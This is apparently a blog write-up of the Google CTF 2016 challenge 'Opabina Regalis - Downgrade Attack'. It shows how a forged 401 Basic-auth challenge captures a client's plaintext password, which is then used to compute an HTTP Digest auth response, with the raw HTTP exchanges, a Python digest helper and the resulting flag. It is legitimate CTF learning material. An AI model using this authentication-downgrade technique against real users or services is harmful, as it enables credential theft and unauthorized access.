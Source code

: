 ```yaml
---
layout: post
title: Google CTF 2016 - Opabina Regalis - Downgrade Attack
---
```

> Following on from Opabina Regalis - Token Fetch, this challenge listens on
> ``ssl-added-and-removed-here.ctfcompetition.com:20691``.

This challenge also uses protocol buffers. After opening a connection, we get a
request to ``/protected/not-secret``. The  idea is to send a response that asks
for HTTP Basic auth, get the password, and use that password to request
``protected/secret`` with Digest auth.

Initial request from server:

{% highlight http %}
GET /protected/not-secret HTTP/1.1
User-Agent: opabina-regalis.go
{% endhighlight %}

Our 401 response:

{% highlight http %}
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="In the realm of hackers"
{% endhighlight %}

The server will then respond with a request containing the base64 username and
password:

{% highlight http %}
GET /protected/not-secret HTTP/1.1
User-Agent: opabina-regalis.go
Authorization: Basic Z29vZ2xlLmN0ZjoxODAxMTg2MjEwLjEwMDA2NTI3NjEuOTA4OTcyODQy
{% endhighlight %}

Which decodes to ``google.ctf:1801186210.1000652761.908972842``. Note that a new
password is generated for each session.

If we make a request to ``/protected/secret``, we get a 401, specifying Digest
authorization:

{% highlight http %}
HTTP/1.1 401 Unauthorized
Server: opabina-regalis.go
WWW-Authenticate: Digest realm="In the realm of hackers",qop="auth",nonce="f2c8bb0f1b5bb7ed",opaque="f2c8bb0f1b5bb7ed"
{% endhighlight %}

Since we have the password, nonce, realm, and opaque parameters, we can now
compute the digest response:

{% highlight python %}
def calc_response(username, realm, password, method, uri, nonce, nc, cnonce):
    ha1 = hashlib.md5(':'.join((username, realm, password))).hexdigest()
    ha2 = hashlib.md5(':'.join((method, uri))).hexdigest()
    r = hashlib.md5(':'.join((ha1, nonce, nc, cnonce, 'auth', ha2))).hexdigest()
    return r
{% endhighlight %}

And we can build the header and send it with our request:

{% highlight http %}
GET /protected/secret HTTP/1.1
Authorization: Digest username="google.ctf",realm="In the realm of hackers",nonce="af8a6a5f1c64ade3",uri="/protected/secret",qop=auth,nc=00000001,cnonce="1115fd1d40a5b9d5",response="ec0555e97853f8e14b2b8cae23208d7b",opaque="af8a6a5f1c64ade3"
{% endhighlight %}

Bingo!

{% highlight http %}
HTTP/1.1 200 OK
Server: opabina-regalis.go

CTF{What:is:green:and:goes:to:summer:camp...A:brussel:scout}
{% endhighlight %}

